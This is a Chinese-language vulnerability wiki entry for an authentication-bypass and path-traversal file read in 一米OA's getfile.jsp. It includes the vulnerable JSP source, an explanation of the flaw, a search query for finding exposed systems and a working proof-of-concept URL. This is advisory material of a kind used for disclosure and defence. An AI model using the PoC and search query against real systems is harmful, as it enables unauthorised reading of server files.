

# 一米OA getfile.jsp鉴权绕过+路径遍历文件读取

## 条目说明

- 对象与具体问题：一米OA；getfile.jsp鉴权绕过+路径遍历文件读取
- 版本、配置及部署条件：无版本；user非空绕过页内权限检查
- 认证与权限前提：前台user参数绕过
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。


## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

一米OA getfile.jsp文件过滤不足，导致任意文件读取漏洞

### 漏洞影响

```
一米OA
```

### 网络测绘

```
app="一米OA"
```

### 漏洞复现

产品页面


出现漏洞的文件

```
<%@ page contentType="text/html;charset=utf-8" %>
<%@page import="cn.js.fan.util.*" %>
<%@page import="cn.js.fan.web.Global" %>
<%@page import="com.redmoon.oa.*" %>
<%@page import="java.io.*" %>
<jsp:useBean id="fchar" scope="page" class="cn.js.fan.util.StrUtil"/>
<jsp:useBean id="fsecurity" scope="page" class="cn.js.fan.security.SecurityUtil"/>
<jsp:useBean id="privilege" scope="page" class="com.redmoon.oa.pvg.Privilege"/>
<%
    String user = ParamUtil.get(request, "user");
    if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }

    String filename = ParamUtil.get(request, "filename");
    String extname = request.getParameter("extname");
    String prop = request.getParameter("prop");
    if (filename == null) {
        System.out.println("缺少文件名！");
        return;
    }

    filename = filename + "." + extname;

    Config cfg = new Config();
    String noticefilepath;
    if ("activex".equals(prop)) {
        noticefilepath = prop;
    } else {
        noticefilepath = cfg.get(prop);
    }

    String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }

    response.setContentType("application/" + extname);
    response.setHeader("Content-disposition", "attachment; filename=" + filename);

    BufferedInputStream bis = null;
    BufferedOutputStream bos = null;

    try {
        bis = new BufferedInputStream(new FileInputStream(filePath));
        bos = new BufferedOutputStream(response.getOutputStream());

        byte[] buff = new byte[2048];
        int bytesRead;

        while (-1 != (bytesRead = bis.read(buff, 0, buff.length))) {
            bos.write(buff, 0, bytesRead);
        }

    } catch (final IOException e) {
        System.out.println("出现IOException." + e);
    } finally {
        if (bis != null)
            bis.close();
        if (bos != null)
            bos.close();
    }

    out.clear();
    out = pageContext.pushBody();
%>
```

首先验证 user 传参是否为空, 需要对 user 参数任意赋值

```
if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }
```

接着接受3个参数 `filename, extname, prop`

```
String filename = ParamUtil.get(request, "filename");
String extname = request.getParameter("extname");
String prop = request.getParameter("prop");
```

接着判断 prop 是否为 activex, 不等于则会去调用系统默认配置的路径 所以filename和extname这两个参数我们可以控制。构造请求前台任意文件读取

```
String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }
```

验证POC

```
/public/getfile.jsp?user=1&prop=activex&filename=../public/getfile&extname=jsp 
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
